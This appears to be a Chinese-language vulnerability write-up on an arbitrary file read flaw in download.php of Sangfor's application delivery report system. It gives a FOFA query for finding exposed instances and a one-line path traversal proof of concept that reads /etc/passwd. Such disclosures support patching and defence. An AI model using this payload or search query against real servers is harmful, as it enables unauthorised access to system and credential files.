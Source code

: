 # 深信服 应用交付报表系统 download.php 任意文件读取漏洞

## 漏洞描述

深信服 应用交付报表系统 download.php文件存在任意文件读取漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

<a-checkbox checked>深信服 应用交付报表系统</a-checkbox></br>	

## FOFA

<a-checkbox checked>app="SANGFOR-应用交付报表系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646063330818-50320d99-80e6-4f24-9ac7-1de5acf8d3d6.png)

验证POC

```javascript
/report/download.php?pdf=../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1646063383225-b9436429-8a97-4675-9a24-29539b3e5be5.png)